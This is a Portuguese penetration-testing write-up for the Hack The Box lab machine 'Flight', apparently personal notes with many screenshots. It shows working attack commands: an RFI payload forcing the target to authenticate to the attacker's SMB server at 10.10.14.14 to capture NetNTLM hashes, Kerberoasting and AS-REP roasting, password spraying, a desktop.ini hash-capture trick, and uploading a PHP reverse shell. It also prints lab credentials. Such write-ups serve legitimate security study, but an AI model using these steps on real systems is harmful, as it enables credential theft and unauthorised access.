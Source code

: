 # Flight

## Enumeration

Nmap script

![qownnotes-media-VMuwah](../../.gitbook/assets/qownnotes-media-VMuwah.png)

![qownnotes-media-eKewwb](../../.gitbook/assets/qownnotes-media-eKewwb.png)

UDP scan
As imagens funcionaram, mas agora quero testar a sincronização com o gitbook.
![qownnotes-media-VMgxgZ](../../../media/qownnotes-media-VMgxgZ.png)

Full TCP scan

![image](../../.gitbook/assets/image%20(1).png)

Então temos:

DNS HTTP Kerberos RPC SMB LDAP

### HTTP

![qownnotes-media-zNgBXB](../../media/qownnotes-media-zNgBXB.png)

![qownnotes-media-TwGaZc](../../media/qownnotes-media-TwGaZc.png)

![qownnotes-media-VveKHl](../../media/qownnotes-media-VveKHl.png)

![qownnotes-media-qQXkSz](../../media/qownnotes-media-qQXkSz.png) =======> Possible entry point

Dando sequência após a enumeração dos demais. Nada encontrado exceto por este subdomínio:

```
school.flight.htb
```

### SMB

![qownnotes-media-bkzCgk](../../media/qownnotes-media-bkzCgk.png)

```
g0.flight.htb
```

![qownnotes-media-DQoVIc](../../media/qownnotes-media-DQoVIc.png)

### RPC

![qownnotes-media-kBtyxd](../../media/qownnotes-media-kBtyxd.png)

### LDAP

![qownnotes-media-LnGbjN](../../media/qownnotes-media-LnGbjN.png)

### Kerberos

```
kerbrute userenum --domain flight.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.11.187
```

![qownnotes-media-RAnyke](../../media/qownnotes-media-RAnyke.png)

### DNS

![qownnotes-media-OxlPjV](../../media/qownnotes-media-OxlPjV.png)

![qownnotes-media-nyDtLD](../../media/qownnotes-media-nyDtLD.png)

![qownnotes-media-OyCEfo](../../media/qownnotes-media-OyCEfo.png)

### HTTP continue

```
school.flight.htb
```

![qownnotes-media-iUmICa](../../media/qownnotes-media-iUmICa.png)

![qownnotes-media-kMffXk](../../media/qownnotes-media-kMffXk.png)

Aqui eu notei que o que muda é o parâmetro "view" da URL, então eu tentei esse mesmo teste, mas de maneira diferente:

```
ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 1102
```

![qownnotes-media-XXURur](../../media/qownnotes-media-XXURur.png)

![qownnotes-media-puTALa](../../media/qownnotes-media-puTALa.png)

As que vieram diferentes foram:

![qownnotes-media-KrRjij](../../media/qownnotes-media-KrRjij.png)

```
g0.flight.htb
```

![qownnotes-media-CDlMtu](../../media/qownnotes-media-CDlMtu.png)

Deu em nada aqui

No entanto, se formos parar para perceber, me parece que isso pode estar sendo consultado no banco de dados... Vamos para um outro teste :

#### SQLi

```
ffuf -c -ic -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -u http://school.flight.htb?view=FUZZ -e ".php,.html" -fs 7069,1170,1102
```

![qownnotes-media-NHAXrq](../../media/qownnotes-media-NHAXrq.png)

![qownnotes-media-RlSMVb](../../media/qownnotes-media-RlSMVb.png)

![qownnotes-media-SdlWrO](../../media/qownnotes-media-SdlWrO.png)

![qownnotes-media-HtZCrq](../../media/qownnotes-media-HtZCrq.png)

#### LFI

PWNED!

![qownnotes-media-GeVlbb](../../media/qownnotes-media-GeVlbb.png)

## Exploitation

Para conseguir explorar essa vulnerabilidade, testei algumas coisas, no entanto, imaginei que fosse algum arquivo que eu deveria extrair e , na verdade se tratava de um RFI e, sendo assim, seria possível obter o hash de senha por meio do seguinte payload:

```
impacket-smbserver -smb2support smb .

http://school.flight.htb/index.php?view=//10.10.14.14/smb/test.txt
```

Dessa forma eu forço o sistema a me enviar o hash netNTLM da máquina e eu posso extraí-lo para quebrá-lo e dar sequência no ataque:

![qownnotes-media-hMblhO](../../media/qownnotes-media-hMblhO.png)

![qownnotes-media-JCOaeL](../../media/qownnotes-media-JCOaeL.png)

Tentativa com Kerberoasting

```
impacket-GetUserSPNs 'flight.htb/svc_apache:S@Ss!K@*t13' -dc-ip 10.10.11.187 -request
```

As Rep Roasting:

```
impacket-GetNPUsers -dc-ip 10.10.11.187 flight.htb/ -usersfile users.txt -format john -outputfile hashes

enum4linux -u svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
 
```

Comecei a entrar em vários diretórios, mas de novo sem saber exatamente o que procurar no SMB, exceto pelo Groups.xml Enumerei pelo bloodhound:

```
 bloodhound-python -u svc_apache -p 'S@Ss!K@*t13' -d flight.htb -v --zip -c All -dc g0.flight.htb -ns 10.10.11.187
 
```

Sem sucesso. Password Spray:

```
crackmapexec ldap 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p passwords.txt --continue

crackmapexec winrm 10.10.11.187 -u users.txt -p 'S@Ss!K@*t13' --continue
```

![qownnotes-media-ZJWfVt](../../media/qownnotes-media-ZJWfVt.png)

Continuando a enumeração:

```
crackmapexec smb 10.10.11.187 -u 's.moon' -p 'S@Ss!K@*t13' --shares
```

![qownnotes-media-Swipnb](../../media/qownnotes-media-Swipnb.png)

Nesse momento, é interessante considerar a possibilidade de explorar o serviço via SMB, dado que temos autorização de escrita em um dos compartilhamentos listados. Temos alguns vetores para este caso,sendo eles documentados [aqui](../../3\_Exploitation/SMB.md)

Utilizando um desktop.ini com o exemplo obtido na referência acima, conseguimos a credencial do c.bum

c.bum:Tikkycoll\_431012284

Que tem acesso de escrita em uma pasta compartilhada também chamada Web:

```
crackmapexec smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares
```

Depois disso, basta subir uma shell reversa em PHP para conseguir execução de comandos na máquina:

```
smbclient -U flight.htb/c.bum //10.10.11.187/Web -c "put revshell.php"
```
